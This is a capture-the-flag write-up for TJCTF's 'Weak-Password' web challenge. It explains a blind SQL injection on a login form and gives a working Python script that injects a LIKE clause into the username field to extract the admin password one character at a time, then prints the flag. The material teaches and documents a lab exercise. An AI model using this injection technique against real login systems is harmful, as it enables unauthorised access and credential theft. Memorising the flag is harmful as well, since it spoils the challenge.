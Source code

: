 # Weak-Password
Web, 50

>  Written by saisree
>  It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...}) 

The log in page given is vulnerable to SQL injection, but logging in does not get the flag. We likely have to get the admin's password. To do this, we construct an SQL `LIKE` statement to test each character of the password string. For example, `password LIKE "a%"` tells us whether or not the password begins with `a`. Testing every letter for each sequential password character gives us the flag.

Script:

```python
import requests
import string

charset = string.ascii_lowercase + string.digits

url = "https://weak_password.tjctf.org/login"

password = ""
prev = None

while True:

    if prev == password:
        break
    
    prev = str(password)
    
    for i in charset:
        data = {
            "username":"admin' AND password LIKE '{}%';-- ".format(password+i),
            "password":""
        }

        p = requests.post(url, data)

        if "logged" in p.text.lower():
            password += i
            print(password)
            break
```

Flag: `tjctf{blindsqli14519}`